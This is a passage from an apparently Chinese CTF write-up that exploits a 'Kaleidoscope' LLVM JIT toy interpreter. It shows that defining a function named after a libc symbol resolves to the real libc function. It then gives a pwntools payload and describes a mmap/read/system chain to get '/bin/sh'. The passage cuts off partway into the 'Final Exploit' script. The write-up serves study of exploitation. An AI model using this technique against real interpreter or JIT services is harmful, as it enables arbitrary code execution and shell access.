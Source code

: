 ```
def fib(x)
    if x &lt; 3 then
        1
    else
        1=1
fib(40)
```

的输入时会直接调用`libLLVM.so`中的内容。

我们可以分析出以下调用过程，当我们向程序传递以上参数时，首先会经过解释器的函数解析，解析后会将我们要调用的函数名传递给`libLLVM.so`，然后通过其内部的`RTDyldMemoryManager::getPointerToNamedFunction`做函数指针的寻址，关于此函数[此处](https://github.com/llvm-mirror/llvm/blob/8b8f8d0ad8a1f837071ccb39fb96e44898350070/lib/ExecutionEngine/RuntimeDyld/RTDyldMemoryManager.cpp#L290)有更加详细的解析。

那么此处我们是否可以通过这个机制来调用任意函数呢？我们构造以下数据来进行输入：

```
payload = '''
        def puts(x)
            if x &lt; 3 then
                1
            else
                1=1
        puts(1234)
        '''
get_gdb(sh,stop=True)
sh.recvuntil('ready&gt; ')
sh.sendline(payload)
sleep(0.5)
sh.recvuntil('ready&gt; ')
sh.sendline('1')
sh.interactive()
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-20-140450.png)

可以发现，的确调用了`libc`内的函数，且发现其参数正是我们传入的`1234`。

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用

那么我们只需要先调用`mmap(1048576, 4096, 7, 34, 0)`来分配一段空间以用来存储我们的`/bin/sh`

然后调用`read(0,1048576,10)`来读取我们的`/bin/sh`，最后再调用`system(1048576)`即可`getshell`

### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
from pwn import *
import traceback
import sys
context.log_level='debug'
context.arch='amd64'
# context.arch='i386'

Kaleidoscope=ELF('./Kaleidoscope', checksec = False)

if context.arch == 'amd64':
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec = False)
elif context.arch == 'i386':
    try:
        libc=ELF("/lib/i386-linux-gnu/libc.so.6", checksec = False)
    except:
        libc=ELF("/lib32/libc.so.6", checksec = False)
```